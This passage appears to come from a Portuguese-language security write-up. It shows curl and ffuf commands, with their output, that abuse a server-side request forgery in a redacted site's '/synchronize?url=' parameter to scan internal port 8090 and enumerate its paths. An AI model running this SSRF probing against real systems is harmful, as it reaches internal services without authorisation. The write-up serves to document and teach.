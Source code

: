```
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response size: 26
________________________________________________

8090                    [Status: 200, Size: 19, Words: 4, Lines: 2, Duration: 11ms]
:: Progress: [65536/65536] :: Job [1/1] :: 3533 req/sec :: Duration: [0:00:19] :: Errors: 0 ::
```

Acessando essa porta:

```
$ curl https://[redacted]/synchronize?url=http://127.0.0.1:8090

404 page not found
```

Voltou a retornar 404, precisamos descobrir qual o path correto:

```
$ ffuf -u https://[redacted]/synchronize?url=http://127.0.0.1:8090/FUZZ -w ~/Git/github.com/danielmiessler/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt 


        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : https://[redacted]/synchronize?url=http://127.0.0.1:8090/FUZZ
 :: Wordlist         : FUZZ: /home/kali/Git/github.com/danielmiessler/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

about                   [Status: 200, Size: 19, Words: 4, Lines: 2, Duration: 17ms]
logo                    [Status: 200, Size: 19, Words: 4, Lines: 2, Duration: 17ms]
rss                     [Status: 200, Size: 19, Words: 4, Lines: 2, Duration: 17ms]
[WARN] Caught keyboard interrupt (Ctrl-C)
```

Era apenas a página inicial que retornava 404, precisamos filtrar as respostas
aqui também, dessa vez o tamanho é 19:

```
$ ffuf -u https://[redacted]/synchronize?url=http://127.0.0.1:8090/FUZZ -w ~/Git/github.com/danielmiessler/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -fs 19


        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.5.0 Kali Exclusive <3
________________________________________________
```

[nmap]: https://nmap.org